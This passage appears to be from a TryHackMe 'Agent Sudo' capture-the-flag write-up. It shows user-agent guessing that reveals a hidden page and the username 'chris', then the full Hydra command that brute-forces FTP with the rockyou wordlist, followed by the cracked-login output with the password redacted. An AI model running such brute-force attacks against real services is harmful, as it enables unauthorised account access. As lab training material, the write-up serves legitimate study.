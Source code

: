 ![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Agent%20Sudo/images/agent_r.png?raw=true)

Finally, we are getting somewhere. On the page we see `Are you one of the 25 employees?` what suspiciopusly reminds us of the English alphabet (yes, 26 letters, but maybe R is already used here?). 
<br> 

Let's start with the letter `A`. Nothing. Letter `B`. Nothing. Letter `C`. There we go: 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Agent%20Sudo/images/agent_c.png?raw=true)

We have found the hidden webpage: `http://MACHINE_IP/agent_C_[REDACTED].php` where we can see a username finally: `chris`. Time to brute force!
<br> 

##### 3. Hash cracking and brute-force

Starting off with `FTP`. Using our trusty old tool `Hydra` we can start the process with ease: `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://MACHINE_IP`:

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-07 20:20:06
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://MACHINE_IP:21/
[21][ftp] host: 10.10.233.10   login: chris   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-07 20:21:00
```
Only in a few minuites we where able to find the `password` for the user `chris`. Time to log-in!.
<br> 
